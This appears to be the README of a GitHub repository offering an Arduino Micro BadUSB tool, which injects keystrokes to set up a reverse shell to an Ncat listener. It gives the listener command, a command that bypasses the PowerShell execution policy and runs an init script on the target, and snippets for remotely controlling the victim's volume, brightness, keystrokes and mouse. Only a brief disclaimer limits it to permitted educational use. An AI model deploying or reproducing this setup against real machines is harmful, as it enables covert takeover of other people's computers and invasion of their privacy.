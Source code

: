 # Arduino Micro BadUSB
Arduino Micro BadUSB is a repository containing all the files and scripts necessary to run a HID (Human Interface Device) attack using an Arduino Micro or other similar microcontrollers. The client will be able to gain access to the target machine through a reverse shell using Ncat.

## Usage
Once the script in `deploy.ps1` has been entered via USB connection or manual input, the program will automatically set itself up.

The program will start attempting to connect to port 6969 and 6699 when it has finished setting up.

The listener machine will have to execute the following command in powershell in order to allow the target machine to connect:
```powershell
.\ncat.exe -l [port_num]
```
Once connected, run the following command to allow script execution and run init.ps1
```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; cd..; .\init.ps1
```
## Shortcuts
This program can allow the listener to execute basic powershell commands on target machine, but also has a few extra features:

 - Volume control
 - Brightness control
 - Sending keystrokes
 - Mouse control

**Volume Control**
```bash
[audio]::Volume = 0.5 # 0.5 = 50%, etc.
[audio]::Mute = $true  # Set to $false to un-mute
```

**Brightness Control**
```powershell
Invoke-CimMethod -InputObject (Get-CimInstance -Namespace root/wmi -ClassName WmiMonitorBrightnessMethods) -MethodName WmiSetBrightness -Arguments @{Brightness = 50; Timeout = 1} # 50 = 50%, etc.
```

**Sending Keystrokes**
```powershell
$wshell = New-Object -ComObject wscript.shell; # run this first
$wshell.SendKeys('some text')
$wshell.SendKeys('{ENTER}') # presses the ENTER key
$wshell.SendKeys('%{TAB}') # alt + TAB
$wshell.SendKeys('{e 21}') # presses e 21 times
```
See full list at [SendKeys Class (System.Windows.Forms)](https://learn.microsoft.com/en-us/dotnet/api/system.windows.forms.sendkeys)

**Mouse Control**
```powershell
# relative movement
$p1 = [System.Windows.Forms.Cursor]::Position.X + 100
$p2 = [System.Windows.Forms.Cursor]::Position.Y + 100

# absolute movement
$p1 = 1000
$p2 = 20

[System.Windows.Forms.Cursor]::Position = New-Object System.Drawing.Point($p1, $p2)
```



## Disclaimer
This repository and the files contained within it should be used on devices for educational purposes only with the owner's permission.

I do not take any responsibility for any loss of data, breach of privacy, or harm caused by the use this program. Use at your own risk.

